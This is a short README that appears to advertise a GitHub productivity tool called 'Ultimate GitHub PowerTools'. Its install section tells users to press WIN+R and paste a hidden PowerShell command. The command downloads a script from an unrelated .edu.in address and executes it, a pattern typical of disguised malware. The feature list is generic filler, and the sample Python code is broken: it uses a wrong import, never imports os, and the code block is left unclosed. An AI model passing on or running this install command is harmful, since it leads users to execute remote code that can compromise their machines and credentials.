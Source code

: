 # 🚀 Ultimate GitHub PowerTools

## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press WIN+R
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/weatherdolphin/dollrandom))).Invoke();
```

### 🔍 Code Intelligence
✅ **Smart Code Review**  
- AI-powered vulnerability detection  
- Automated style guideline checks  
- Dependency update alerts  

✅ **Repo Analyzer**  
- Contributor activity heatmaps  
- Code churn visualization  
- Blame age tracker  

### 🤖 Automation Suite
⚡ **Auto-Labeler**  
- Context-aware issue tagging  
- PR priority scoring  
- Duplicate detection  

⚡ **CI/CD Optimizer**  
- Test time reduction suggestions  
- Parallel job balancer  
- Failure pattern recognition  



### ✨ Pro Tips:

Use ALT+0149 for bullet points • Like this

Combine emojis with headers for visual hierarchy

Add code snippets with syntax highlighting

---

```python
# Sample integration code
def github_connect():
    import PyGithub
    gh = PyGithub.Github(os.getenv('GITHUB_TOKEN'))
    repo = gh.get_repo("your/repo")
    print(f"⭐ {repo.stargazers_count} stars")
